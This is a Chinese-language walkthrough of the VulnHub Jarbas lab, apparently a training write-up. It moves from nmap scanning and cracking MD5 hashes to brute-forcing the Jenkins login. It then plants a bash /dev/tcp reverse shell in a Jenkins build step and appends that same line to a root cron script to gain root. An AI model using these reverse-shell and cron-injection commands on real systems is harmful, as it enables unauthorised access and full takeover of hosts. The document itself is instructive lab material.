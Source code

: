 # 靶场考察点

## 1.Jenkis平台的漏洞利用

Jenkins是一个开源软件项目，是基于Java开发的一种持续集成工具，用于监控持续重复的工作，旨在提供一个开放易用的软件平台，使软件项目可以进行持续集成



## 2.contrab提权

在LINUX系统中的`/etc/contrab`文件存放着系统定时任务, 若该文件的某些定时任务指定由root用户执行, 那么这将是一个可提权点 



## 3.登录爆破

使用burpsuite对网站后台登录进行爆破



# 靶场搭建

Jarbas靶场下载地址: https://download.vulnhub.com/jarbas/Jarbas.zip



# 渗透步骤

## 信息收集

### 1.确定靶机ip

扫描C段ip的存活主机: `nmap -sn 192.168.47.0/24`, 确定目标主机的IP为192.168.47.156

![image-20221124230218824](Jarbas靶场/image-20221124230218824.png)	



### 2.端口扫描

分别使用tcp和udp扫描目标主机的开放端口, 显示开放的端口有`22`、`80`、`3306`、`8080`

```
nmap -p- 192.168.47.156
nmap -sU -V -p22,80,3306,8080 192.168.47.156
```

![image-20221124233435735](Jarbas靶场/image-20221124233435735.png)		

![image-20221124233440334](Jarbas靶场/image-20221124233440334.png)	



nmap使用web漏扫脚本进行扫描, 扫描结果并不太理想, 显示在8080端口处有一个robots.txt

```
nmap --script=vuln -p21,22,80,3306 192.168.47.156
```

![image-20221124233935822](Jarbas靶场/image-20221124233935822.png)	



访问robots.txt, 页面信息为"我们不想机器人去点击'建立'连接", 作者不想"build"被点击, 那么这个"build"后续很可能会出现且可利用

![image-20221125090817640](Jarbas靶场/image-20221125090817640.png)	



访问http://192.168.47.156:8080, 显示登录页面, 可用于后续的爆破

![image-20221125093938352](Jarbas靶场/image-20221125093938352.png)	



### 3.目录爆破

对http://192.168.47.156:80进行目录爆破, 爆出access.html

```
python3 dirsearch.py -u http://192.168.47.156 -x 403
```

![image-20221125091907048](Jarbas靶场/image-20221125091907048.png)



访问http://192.168.47.156:80/access.html, 页面显示三段未加密字符对应MD5加密字符串,依照以往的经验这可能是用户的账号及密码

经过在线网站的破解后, 密码字符串分别为`italia`、`vipsu`、`mariana`, 最终账号对应密码如下所示:

- tiago- > italia
- trindade -> vipus
- eder -> mariana

<img src="Jarbas靶场/image-20221125092032522.png" alt="image-20221125092032522" style="zoom:67%;" />				

<img src="Jarbas靶场/image-20221125092314581.png" alt="image-20221125092314581" style="zoom:67%;" />	



使用上述的账号密码尝试登录, 全部登录失败, 后续尝试使用burpsuite打乱顺序进行爆破

<img src="Jarbas靶场/image-20221125094254436.png" alt="image-20221125094254436" style="zoom:67%;" />	





## Web渗透

### 1.登录爆破

使用burpsuite进行爆破, 攻击类型选择`Clusterbomb`, 爆破参数分别是`j_username`和`j_password`, 爆破的字典填写上述用户的账号密码

<img src="Jarbas靶场/image-20221125154656680.png" alt="image-20221125154656680" style="zoom:67%;" />	

<img src="Jarbas靶场/image-20221125154810481.png" alt="image-20221125154810481" style="zoom:67%;" />		

<img src="Jarbas靶场/image-20221125154818327.png" alt="image-20221125154818327" style="zoom:67%;" />	





从响应长度可判断出`eder/mariana`或`eder/vipsu`都可能为正确的账号密码, 经过登录尝试后, 确定后者才是正确的账号密码

由后台页面可知, 这是一个Jenkins平台, 这就要考察我们对该平台漏洞利用的了解

![image-20221125155317577](Jarbas靶场/image-20221125155317577.png)	

![image-20221125155433328](Jarbas靶场/image-20221125155433328.png)



### 2.Jenkins远程命令执行反弹shell

在Jenkins平台新建一个任务	![动画](Jarbas靶场/动画.gif)



在构建栏处发现一处能够远程命令执行的地方, 选择`Execute shell`, 随后输入`/bin/bash -i >& /dev/tcp/192.168.47.155/4444 0>&1`, 该命令的作用是反弹目标主机的shell, 然后点击应用加保存

<img src="Jarbas靶场/image-20221125210501408.png" alt="image-20221125210501408" style="zoom:67%;" />			

<img src="Jarbas靶场/image-20221125235925466.png" alt="image-20221125235925466" style="zoom:67%;" />	



在kali监听本机的4444端口来接收反弹Shell: `nc -lvp 4444`, 随后点击`立即构建`触发上述设置的远程命令,后续在kali收到反弹的shell

> 通常以这种方式获取的反弹shell, 我们称之为非交互式shell
>
> - 交互式shell: shell等待你的输入并且执行你提交的命令, 这种模式也是大多数用户非常熟悉的
> - 非交互式shell: shell不与你进行交互，而是读取存放在文件中的命令,并且执行它们, 当它读到文件的结尾，shell也就终止了

<img src="Jarbas靶场/image-20221125211221591.png" alt="image-20221125211221591" style="zoom:67%;" />	

![image-20221125211409283](Jarbas靶场/image-20221125211409283.png)		



## 系统提权

### 1.收集当前用户信息

查看当前用户: `whoami`, 显示当前用户为jenkins

![image-20221125221304286](Jarbas靶场/image-20221125221304286.png)			



查看当前用户权限: sudo -l, 结果显示没有任何权限

![image-20221125221342646](Jarbas靶场/image-20221125221342646.png)

​	

### 2.crontab提权

查看系统定时任务: `cat /etc/crontab`, 发现有一个任务使用root用户执行shell脚本

查看shell脚本的内容: `cat /etc/script/CleaningScript.sh`, 发现这是一个删除日志的脚本

![image-20221125222821487](Jarbas靶场/image-20221125222821487.png)

![image-20221125223338183](Jarbas靶场/image-20221125223338183.png)	



将反弹Shell的命令写入脚本文件, 这样一来就能获取root权限的反弹shell了

```
echo "/bin/bash -i >& /dev/tcp/192.168.47.155/4444 0>&1" >> /etc/script/CleaningScript.sh
```

![image-20221125223530489](Jarbas靶场/image-20221125223530489.png)



重新建立nc监听, 过5分钟后就能接收到反弹的root权限shell

![image-20221125224814118](Jarbas靶场/image-20221125224814118.png)	



获取flag.txt

![image-20221126000715869](Jarbas靶场/image-20221126000715869.png)		







